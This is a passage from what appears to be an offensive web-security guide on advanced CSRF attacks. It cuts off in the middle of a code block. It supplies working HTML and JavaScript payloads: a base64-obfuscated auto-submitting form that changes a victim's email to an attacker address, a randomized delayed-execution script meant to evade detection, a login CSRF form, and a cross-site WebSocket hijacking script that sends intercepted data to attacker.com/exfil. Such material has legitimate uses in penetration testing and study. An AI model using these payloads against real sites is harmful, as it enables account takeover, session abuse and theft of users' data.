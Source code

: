   - **Advanced evasion delivery**
    - Dynamically generated and obfuscated payloads:
      ```html
      <script>
        // Generate form dynamically to bypass static scanners
        var f = document.createElement("form");
        f.setAttribute("action", atob("aHR0cHM6Ly92aWN0aW0uY29tL2FwaS9zZXR0aW5ncw==")); // Base64 encoded URL
        f.setAttribute("method", "POST");
        var i = document.createElement("input");
        i.setAttribute("name", "email");
        i.setAttribute("value", "attacker@evil.com");
        f.appendChild(i);
        document.body.appendChild(f);
        setTimeout(function(){f.submit();}, 1000);
      </script>
      ```
    - Polymorphic payload generation:
      - Randomize variable names and structure
      - Split attack across multiple files/resources
      - Use different encoding techniques per delivery
    - Delayed execution:
      ```html
      <script>
        // Delay execution to evade timing-based detection
        window.addEventListener('focus', function() {
          setTimeout(function() {
            // CSRF payload
          }, Math.random() * 10000 + 5000);
        });
      </script>
      ```

- **Advanced exploitation techniques**
  - **Login CSRF**
    - Forces authentication as attacker
    - Enables monitoring of victim's activities
    - Implementation:
      ```html
      <form action="https://victim.com/login" method="POST" id="login-form">
        <input type="hidden" name="username" value="attacker-account">
        <input type="hidden" name="password" value="attacker-password">
      </form>
      <script>document.getElementById("login-form").submit();</script>
      ```
    - Impact:
      - Access to victim's input in attacker-controlled account
      - Credential harvesting if victim enters additional authentication
      - False sense of security while using attacker's context

  - **Cross-Site WebSocket Hijacking**
    - Establishes authenticated WebSocket connections
    - Enables ongoing bidirectional communication
    - Implementation:
      ```html
      <script>
        var ws = new WebSocket('wss://victim.com/api/streaming');
        ws.onopen = function() {
          // Connection established with victim's authentication
        };
        ws.onmessage = function(event) {
          // Intercept and forward real-time data
          fetch('https://attacker.com/exfil', {
            method: 'POST',